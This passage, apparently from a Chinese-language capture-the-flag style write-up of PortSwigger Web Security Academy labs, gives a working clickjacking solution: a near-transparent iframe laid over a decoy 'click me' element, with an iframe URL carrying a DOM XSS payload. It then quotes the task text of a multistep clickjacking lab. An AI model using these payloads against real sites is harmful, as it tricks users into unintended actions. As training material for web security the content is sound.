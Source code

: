 ### 解答

```
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
 
我的是：
<style>
	iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:610px;
        left:80px;
        z-index: 1;
	}
</style>
<div>click me</div>
<iframe
src="https://0a6100d704d5df4f821eb52800aa001e.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Lab5

实验5：多步点击劫持

```
Lab: Multistep clickjacking
PRACTITIONER

This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

You can log in to the account yourself using the following credentials: wiener:peter
```
